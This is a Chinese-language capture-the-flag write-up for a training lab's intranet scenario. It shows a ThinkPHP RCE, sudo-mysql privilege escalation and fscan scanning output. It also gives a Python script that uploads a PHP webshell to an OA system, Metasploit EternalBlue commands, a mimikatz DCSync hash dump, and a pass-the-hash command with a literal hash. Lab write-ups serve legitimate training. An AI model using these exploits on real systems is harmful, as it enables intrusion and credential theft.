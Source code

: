 # 春秋云镜-Initial

  
  
&lt;!--more--&gt;  
## flag01  
利用`ThinkPHP`检测工具，存在`RCE`直接`getshell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152016791.png)
利用`sudo -l`查看特权命令  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152022082.png)
利用`mysql`进行提权  
`sudo mysql -e &#39;\! whoami&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152023190.png)
`flag01: flag{60b53231-`  
## flag02  
上传`frp`进行代理，  
`./frpc -c frpc.ini`  
继续上传`fscan`扫描内网  
`ifconfig`得到内网地址  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152034928.png)
```bash  
(www-data:/var/www/html) $ ./fscan -h 172.22.1.15/24   
   ___                              _      
  / _ \     ___  ___ _ __ __ _  ___| | __   
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;      
\____/     |___/\___|_|  \__,_|\___|_|\_\     
                     fscan version: 1.8.3  
start infoscan  
trying RunIcmp2  
The current user permissions unable to send icmp packets  
start ping  
(icmp) Target 172.22.1.2      is alive  
(icmp) Target 172.22.1.15     is alive  
(icmp) Target 172.22.1.18     is alive  
(icmp) Target 172.22.1.21     is alive  
[*] Icmp alive hosts len is: 4  
172.22.1.15:80 open  
172.22.1.15:22 open  
172.22.1.18:3306 open  
172.22.1.21:445 open  
172.22.1.18:445 open  
172.22.1.2:445 open  
172.22.1.21:139 open  
172.22.1.18:139 open  
172.22.1.2:139 open  
172.22.1.21:135 open  
172.22.1.18:135 open  
172.22.1.2:135 open  
172.22.1.18:80 open  
172.22.1.2:88 open  
[*] alive ports len is: 14  
start vulscan  
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin  
[*] NetInfo   
[*]172.22.1.2  
   [-&gt;]DC01  
   [-&gt;]172.22.1.2  
[*] NetInfo   
[*]172.22.1.18  
   [-&gt;]XIAORANG-OA01  
   [-&gt;]172.22.1.18  
[*] NetInfo   
[*]172.22.1.21  
   [-&gt;]XIAORANG-WIN7  
   [-&gt;]172.22.1.21  
[&#43;] MS17-010 172.22.1.21    (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)  
[*] OsInfo 172.22.1.2    (Windows Server 2016 Datacenter 14393)  
[*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
[*] NetBios 172.22.1.2      [&#43;] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393  
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600  
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login  
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统  
[&#43;] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1  
已完成 14/14  
[*] 扫描结束,耗时: 9.743368418s  
```  
有三台机器在域内  
```bash  
*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
  
[*] NetBios 172.22.1.2      [&#43;] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393  
  
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600  
```  
其中`172.22.1.2`是`DC`，  
存在`信呼协同办公系统`先打这个  
```python  
# 1.php为webshell  
  
# 需要修改以下内容：  
# url_pre = &#39;http://&lt;IP&gt;/&#39;  
# &#39;adminuser&#39;: &#39;&lt;ADMINUSER_BASE64&gt;&#39;,  
# &#39;adminpass&#39;: &#39;&lt;ADMINPASS_BASE64&gt;&#39;,  
  
import requests  
  
session = requests.session()  
url_pre = &#39;http://172.22.1.18/&#39;  
url1 = url_pre &#43; &#39;?a=check&amp;m=login&amp;d=&amp;ajaxbool=true&amp;rnd=533953&#39;  
url2 = url_pre &#43; &#39;/index.php?a=upfile&amp;m=upload&amp;d=public&amp;maxsize=100&amp;ajaxbool=true&amp;rnd=798913&#39;  
# url3 = url_pre &#43; &#39;/task.php?m=qcloudCos|runt&amp;a=run&amp;fileid=&lt;ID&gt;&#39;  
data1 = {  
    &#39;rempass&#39;: &#39;0&#39;,  
    &#39;jmpass&#39;: &#39;false&#39;,  
    &#39;device&#39;: &#39;1625884034525&#39;,  
    &#39;ltype&#39;: &#39;0&#39;,  
    &#39;adminuser&#39;: &#39;YWRtaW4=&#39;,  
    &#39;adminpass&#39;: &#39;YWRtaW4xMjM=&#39;,  
    &#39;yanzm&#39;: &#39;&#39;      
}  
  
r = session.post(url1, data=data1)  
r = session.post(url2, files={&#39;file&#39;: open(&#39;1.php&#39;, &#39;r&#43;&#39;)})  
filepath = str(r.json()[&#39;filepath&#39;])  
filepath = &#34;/&#34; &#43; filepath.split(&#39;.uptemp&#39;)[0] &#43; &#39;.php&#39;  
print(filepath)  
id = r.json()[&#39;id&#39;]  
url3 = url_pre &#43; f&#39;/task.php?m=qcloudCos|runt&amp;a=run&amp;fileid={id}&#39;  
r = session.get(url3)  
r = session.get(url_pre &#43; filepath &#43; &#34;?1=system(&#39;dir&#39;);&#34;)  
print(r.text)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152048679.png)
`flag02: 2ce3-4813-87d4-`  
## flag03  
接下来利用`MS17-010`攻击`172.22.1.21`这台机器  
直接利用`msf`中的`MS17-010`利用工具  
```  
use exploit/windows/smb/ms17_010_eternalblue  
set payload windows/x64/meterpreter/bind_tcp_uuid  
set RHOSTS 172.22.1.21  
exploit  
```  
成功反弹`shell`，并且是最高权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152128864.png)
这台机器在域中，并且我们获得了最高权限，直接打DCSync尝试同步DC域的数据，dump hash  
直接利用`msf`中的`mimikatz`  
```  
load kiwi  
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152134566.png)
域控DC开启了`445`和`135`端口，直接打`pth`  
`python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152145901.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152146740.png)
`flag03: e8f88d0d43d6}`  
## Reference  
https://tttang.com/archive/1634/  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-initial/  

